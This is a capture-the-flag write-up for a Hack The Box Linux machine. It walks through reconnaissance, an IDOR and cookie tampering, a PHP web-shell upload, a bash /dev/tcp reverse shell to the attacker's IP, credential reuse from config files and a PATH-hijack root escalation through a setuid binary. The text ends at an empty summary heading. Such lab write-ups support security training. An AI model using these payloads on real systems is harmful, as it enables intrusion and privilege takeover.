



---
tags:
  - Linux
  - HTTP
  - IDOR
  - PHP
  - Insecure File Upload
  - SetUID
  - PATH Hijack
---

... is a simple HTB machine which offers a `http` and a `ssh` service. A hidden asset can be found on the `http` service by investigating the page source or the developer tools. There, an `IDOR` vulnerability allows you to upload a PHP which gets executed. With that code execution, a configuration file can be read which reveals the credentials for a system user. That system user belongs to a group which is allowed to execute a `setuid` binary which is vulnerable to path hijacking.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From this output this seems like a very normal HTB machine in which a web vulnerability exposes credentials which can then be used for the `ssh` connection.

I use `firefox` to visit the page and inspect it. It's a web page which displays information about cars from the company `MegaCorp`. It seems to not be using a CMS, instead being written by someone by scratch. The page source did not reveal any redirects to other resources, nor any secrets hidden in the comments. The `Network` tab from the browser developer tools has shown interesting calls to `javascript` resources like `email-decode.min.js`, `script.js` or `index.js`. These can be further investigated.

Although i like to use forceful browsing first to find any hidden resources using the command `dirb http://$IP`. It did not find anything that i can visit now, but a `/uploads/` directory indicates that i can maybe upload files. As `PHP` is being used (`dirb` found `index.php`), that can maybe lead to RCE. VHost fuzzing is not an option, as this `http` service does not seem to use any domain name.

As that was no success, i investigated the `.js` files further. In the `Debugger` tab of the browser dev tools, i found out that a `pen.js` file exists in the `/cdn-cgi/login` sub-directory (it was also in the `view-source`, i can look for the word `login` in the future..). As that was not found using the `dirb` scan (was not included in the `common.txt`, or `big.txt` wordlist) i have opened it to find out what hides behind it. And it is a log in prompt. I tried some default credentials to no avail, so i simply pressed the `Login as Guest` button, which gave me access to the `Repair Management System`! The uploads tab on this system was sadly disabled for me, as i require super admin rights.

### Initial Exploitation
When visiting the `Account` tab, i immediately notice the URL GET parameters in the top bar. There is one to specify what content i am viewing (`?content=accounts`), and one which displays my current ID (`?id=2`). As this ID is something i control, i can change it to `1`. Doing so, shows me the Access ID, the name and the email of the `admin` user.

This shows an `IDOR` vulnerability (Insecure Direct Object Reference), where a user controlled value is tied to the content you are seeing, or the role you have. At this point, i open `burpsuite` to further inspect what i am sending in my HTTP requests, and what i am receiving by the server. And funnily enough, i notice two cookies which always send the following values to the server with each request; `Cookie: user=2233; role=guest`. As i know the Access ID and the name of the administrator, i try to access the Uploads tab alongside with tampering with the cookies to be `Cookie: user=34322; role=admin`.

On the Uploads page i can upload a `Branding Image`. I prepare a file called `evil.php` with the following content:
```php
<?php system($_GET['cmd']); ?>
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# This file fetches the 'cmd' parameter from any GET request and inputs it into the PHP function system(). That function then executes what was read from that parameter.
```

I choose the file and click upload, but i make sure to intercept this request, as i can send it to `burp`s repeater to make modifications to it (don't forget to edit the cookies).


To my surprise, it has been uploaded without nagging about the file extension. The next step is to find out where this file landed, so it can be rendered, which would give me RCE. My first guess would have been `/uploads`, but i still couldn't access it (not even directly with `/uploads/evil.php`).

Maybe it was being accessed, but the command is not being displayed on the browser. To verify this idea, i slightly changed the `evil.php` to be like this:
```php
<?php system("ping -c 3 <my-IP>"); ?>
```
Now instead of executing the command in the `cmd` parameter, this `evil.php` simply tries to ping me 3 times. To know if the ping packets reach me, i use the following `tcpdump` command:
```bash
sudo tcpdump -i tun0 icmp
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: is required for packet inspection
# -i: specify the interface. the HTB VPN uses tun0
# icmp: listen for Internet Control Message Protocol (in short, ping) messages
```

When visiting `http://$IP/uploads/evil.php`, `tcpdump` actually registers received ping packets! That means that the code inside of that PHP gets executed. I quickly replace the `ping` command with the following reverse shell initiator (find your own IP with `ip a`, located at `tun0` if using the VPN):
```bash
bash -c "/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# bash -c: wraps the following command so that it explicitly gets executed by bash, not the current shell
# /bin/bash -i: launch the bash binary in interactive mode
# >&: redirect standard output and standard error to:
# /dev/tcp/<IP>/port: when the bash binary opens this path, it creates a TCP connection!
# 0>&1: STDIN (0) gets redirected (>) to where STDOUT (1) is pointing
```

The final payload looks like this:
```php
<?php system('bash -c "/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1"'); ?>
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# make sure to change PHP's system("...") to system('...') to avoid closing the double quotes from the system() with the double quotes from the bash -c "...".
```

Now, you start listening for incoming connections using the swiss-army-knife of networking `nc` as follows:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

When visiting `http://$IP/uploads/evil.php` you will now receive a reverse shell and can read the user flag located at `/home/robert/user.txt`!

### Lateral Movement
As the user `www-data` is only a service account, it has very limited capabilities on the system. An actual user account within the `/home` directory is much more preferable.
The user `robert` has a home directory, which is why i assumed that i need his account to gain `ssh` access to the machine. `ssh` access is always better than a reverse shell, as it is fully interactive. It is always possible to upgrade the reverse shell with a [neat trick](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but `ssh` access to an actual account is always preferable.

As this machine only has a `http` service, i look into the `/var/www/html` directory to find any configuration files. I have found a file called `/var/www/html/cdn-cgi/login/db.php` which initiates the database with the username `robert` and the password `M3g4C0rpUs3r!`. It would be a shame if `robert` also used this password for his `ssh` access...

### Privilege Escalation
After logging into `robert`s account using `ssh robert@$IP` with the password used for the database setup, i now need to gain elevated privileges (e.g. become `root`). The quickest way to achieve this is usually to check for a misconfigured `/etc/sudoers` file by executing `sudo -l`, but unfortunately, `robert may not run sudo on oopsie`.

I issue this command to find out what ports are open on the machine, to find out if any ports are open to `localhost`, which are closed to the public:
```bash
netstat -tulnp
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -t: show TCP ports
# -u: show UPD ports
# -l: show listening ports
# -n: do not resolve names, show numbers
# -p: display PIDs
```

The output tells me that a port `3306` is open to localhost, which is a MySQL database.

To access this `mysql` service, the easiest way is to simply use the binary as `robert` in the `ssh` session like this (it is also possible to do `ssh` tunneling, but as `robert` has access to the `mysql` binary, it's not necessary):
```bash
mysql -h localhost -u robert -P 3306 -p
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -h: hostname, here localhost
# -u: username, here robert
# -p: use password
# -P: specify port
```

Using `show databases;` i discover the database `garage`. I can interact with it using `use garage;` and then show its tables using `show tables;`. I extract all the information from each table using `select * from accounts;`, but that only included IDs and accounts linked to the `/cdn-cgi` backend, which is why this was a dead end.

I went back to the `/var/www/html` directory to find out if i have missed anything inside the `php` files. To do so, i used the following command to search for anything that starts with `pass` in the current directory :
```bash
grep -r "pass*" .
```
And indeed, i found the password `MEGACORP_4dm1n!!` inside the file `.../cdn-cgi/login/index.php`. I tried switching to the account `root` with the command `su root`, providing this password, which was a failure.

The next step in identifying easy privilege escalation paths is the command `id`, as it displays to what groups and users the current user belongs to. A group called `1001(bugtracker)` was present which is not ordinary. I looked for all files belonging to this group using this command:
```bash
find / -group bugtracker 2>/dev/null
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# find /: find every file starting from the root directory /
# -group: filter them by the group "bugtracker"
# 2>/dev/null: redirect the STDERR to /dev/null. this means ignore error messages.
```

This gave returned only the file `/usr/bin/bugtracker`. Executing `ls -la` (long listing and all entries) on that file, shows us this:
```bash
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```
The `s` is very interesting. It tells us that this binary is an `SetUID` binary. These binaries get temporarily executed with the privileges of the file's owner (which is `root`). Executing `strings` on that binary allows us to view stored strings. 
One very interesting string is `cat /root/reports/`. Why is this interesting:
In linux, you can use binaries such as `cat`, `ls`, `whoami`, ... by themselves, although they do not exist in the current directory. Their actual binaries reside in the directories `/bin`, `/usr/bin`, `usr/bin/local` and so on. Still, the binaries get executed without providing the full path such as `/bin/cat file.txt`. 
This is due to the `$PATH` environment variable (can be viewed with `echo $PATH`). The bash always looks into that variable from left to right to find a binary in one of the paths within the `$PATH` variable. This path variable is editable. You can add custom paths to this variable, in which the shell looks into to find the binary.

In the string of `bugtracker`, the `cat` command does not use the full path of `/bin/cat`, which is why a custom `cat` binary can be created in an arbitrary directory. When this directory is added to the `$PATH` the custom `cat` with custom commands gets executed before the actual `/bin/cat` binary. And if `root` is running that custom `cat` command, it gets executed with elevated privileges!
A custom `cat` binary can be created like this (this has been done in the home directory of `robert`):
```bash
echo "/bin/bash" > cat
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# This `cat` command simply starts a new instance of `bash`
```

```bash
chmod +x cat
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# make this new cat binary executable.
```

Now, to the `$PATH` tampering. For safety purposes, i create a copy of the previous path so that it can be reverted to its original state:
```bash
OLDPATH="$PATH"
```
And now i can add `/home/robert` to the front of the `$PATH` variable:
```bash
export PATH="/home/robert:$PATH"
```
Now, when executing `bugtracker` and entering any ID, a new `/bin/bash` instance gets opened as `root`, because the custom binary `/home/robert/cat` gets used instead of the real one!
Don't forget that you cannot `cat /root/root.txt`, as the `cat` binary is now `/home/robert/cat`! either use `/bin/cat /root/root.txt`, `head /root/root.txt`, or simply revert the `$PATH` variable to its original state (`$OLDPATH` does't exist here tho!).
To revert the `$PATH` to its original state, issue this command as `robert`, where `$OLDPATH` is defined:
```bash
export PATH="$OLDPATH"
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine.



The privilege escalation to the user `root` worked as follows:

